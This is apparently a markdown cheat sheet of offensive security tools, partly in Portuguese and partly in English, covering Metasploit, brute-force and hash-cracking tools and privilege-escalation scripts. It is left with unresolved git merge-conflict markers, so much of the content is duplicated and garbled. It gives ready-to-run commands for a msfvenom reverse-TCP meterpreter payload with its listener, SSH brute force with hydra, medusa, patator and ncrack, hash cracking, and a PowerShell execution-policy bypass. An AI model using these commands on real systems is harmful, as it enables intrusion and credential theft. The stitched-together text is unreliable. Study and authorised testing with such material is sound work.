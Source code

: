  System Hacking Tools

<<<<<<< HEAD
# Exploitation Frameworks
=======
 Exploitation Frameworks
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

 Metasploit
- msfconsole: Console principal
- msfvenom: Gerador de payloads
- meterpreter: Shell avançado

 Exploit-DB
- searchsploit: Pesquisa exploits locais
- exploit-db: Base de dados online

<<<<<<< HEAD
# Password Attacks

Brute Force
- hydra: Brute force multi-protocolo
- john: John the Ripper

Hash Cracking
- hashcat: GPU hash cracking

# Privilege Escalation

Linux
- linpeas: Enumeração automática
=======
Password Attacks

Brute Force
- hydra: Brute force multi-protocolo
- medusa: Brute force paralelo
- patator: Brute force modular
- ncrack: Brute force de rede

Hash Cracking
- john: John the Ripper
- hashcat: GPU hash cracking
- ophcrack: Rainbow tables

Privilege Escalation

Linux
- linpeas: Enumeração automática
- linenum: Script de enumeração
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851
- linux-exploit-suggester: Sugestões de exploits

Windows
- winpeas: Enumeração Windows
- windows-exploit-suggester: Sugestões de exploits
- powerup: PowerShell privilege escalation

<<<<<<< HEAD

# Exploit Database
=======
System Hacking Tools

Exploitation Frameworks

Metasploit Framework

* `msfconsole`
  ↳ Main interactive console
* `msfvenom`
  ↳ Payload generation tool
* Meterpreter
  ↳ Powerful post-exploitation shell

Useful Metasploit Commands:

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit

Payload Generation with msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f exe -o payload.exe

Exploit Databases
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851

* `searchsploit keyword`
  ↳ Search local Exploit-DB mirror
* [exploit-db.com](https://www.exploit-db.com)
  ↳ Online exploit database
<<<<<<< HEAD
=======

Password Attacks

Brute Force Tools

* `hydra`
  ↳ Fast, protocol-aware brute forcer

  
  hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://target
  
* `medusa`
  ↳ Parallel brute force, supports many protocols

  
  medusa -h target -u user -P wordlist.txt -M ssh
  
* `patator`
  ↳ Modular brute-forcer with advanced options

  
  patator ssh_login host=target user=admin password=FILE0 0=wordlist.txt
  
* `ncrack`
  ↳ High-performance network brute forcer from the Nmap team

  
  ncrack -p ssh target
  

Hash Cracking Tools

* `john` (John the Ripper)
  ↳ Fast CPU-based hash cracker

  
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  
  ↳ GPU-accelerated cracker

  
  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

  Common hash modes:

  * `0`: MD5
  * `100`: SHA1
  * `500`: MD5(Crypt)
  * `1000`: NTLM
* `ophcrack`
  ↳ Uses rainbow tables to crack Windows hashes

Privilege Escalation

Linux

* `linpeas.sh`
  ↳ Privilege escalation auditing (automated & colored)

  
  ./linpeas.sh
  
* `linenum.sh`
  ↳ Lightweight enumeration script

  
  ./linenum.sh
  
* `linux-exploit-suggester.sh`
  ↳ Suggests known privilege escalation exploits

  
  ./linux-exploit-suggester.sh
  

 Windows

* `winpeas.exe`
  ↳ Comprehensive privilege escalation enumeration

  powershell
  .\winpeas.exe
  
* `windows-exploit-suggester.py`
  ↳ Compares patches and suggests exploits

  
  python windows-exploit-suggester.py --database 2024-DB.csv --systeminfo systeminfo.txt
  
* `PowerUp.ps1`
  ↳ PowerShell-based enumeration

  powershell
  Import-Module .\PowerUp.ps1
  Invoke-AllChecks

Scripts & One-Liners

 Metasploit


msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit


 Payload Generation


msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f exe -o payload.exe


 Brute Force SSH


hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://target


 Hash Cracking


john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt


 Privilege Escalation Enumeration


# Linux
./linpeas.sh
./linenum.sh

# Windows
.\winpeas.exe
powershell -ep bypass -File .\PowerUp.ps1
>>>>>>> c1b4712547a17da4c827bb6759b6cfb87d5bc851
